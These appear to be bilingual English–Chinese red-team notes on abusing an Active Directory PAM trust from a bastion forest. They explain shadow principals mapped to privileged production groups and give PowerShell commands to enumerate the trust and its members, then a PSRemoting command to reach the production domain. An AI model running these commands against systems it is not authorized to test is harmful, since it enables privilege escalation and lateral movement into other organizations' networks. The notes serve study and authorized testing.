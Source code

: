 • PAM trust provides the ability to access the production forest with high privileges without using credentials of the bastion forest. Thus, better security for the bastion forest which is much desired.（PAM信任提供了以高权限访问生产林的能力，而无需使用堡垒林的凭证。因此，堡垒林的安全性更好，这是人们所期望的）

• To achieve the above, Shadow Principals are created in the bastion domain which are then mapped to DA or EA groups SIDs in the production forest.（ 为了实现上述目标，在堡垒域中创建影子原则，然后将其映射到生产林中的DA或EA组SID。）

##枚举
```
Get-ADTrust -Filter *

Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

On bastion-dc, enumerate if there is a PAM trust
```
$bastiondc = New-PSSession bastion-dc.bastion.local Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc
```

Check which users are members of the Shadow Principals:
```
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc
```

## Abusing PAM Trust

Establish a direct PSRemoting session on bastion-dc and access production.local:
```
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```
